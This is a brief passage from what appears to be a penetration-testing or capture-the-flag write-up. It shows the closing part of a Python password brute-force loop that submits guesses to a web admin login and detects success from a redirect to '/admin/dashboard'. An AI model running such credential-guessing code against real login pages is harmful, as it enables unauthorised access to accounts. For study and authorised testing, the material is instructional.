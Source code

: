 ```

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
@dignajar

```

![](./IMG/16.png)
## Exploit 

